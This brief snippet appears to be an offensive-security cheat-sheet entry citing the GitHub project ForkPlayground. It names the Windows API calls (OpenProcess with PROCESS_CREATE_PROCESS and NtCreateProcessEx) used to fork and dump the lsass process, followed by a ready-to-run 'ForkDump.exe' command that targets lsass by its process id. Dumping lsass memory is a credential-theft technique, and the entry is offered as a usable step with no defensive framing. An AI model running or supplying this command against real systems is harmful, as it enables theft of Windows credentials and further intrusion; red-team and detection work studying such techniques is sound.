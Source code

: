 ### Source
https://github.com/D4stiny/ForkPlayground  

### Use OpenProcess(PROCESS_CREATE_PROCESS, FALSE, ProcessId) and NtCreateProcessEx functions to dump lsass process
```
ForkDump.exe <outfile>.dmp (Get-Process lsass).id
```

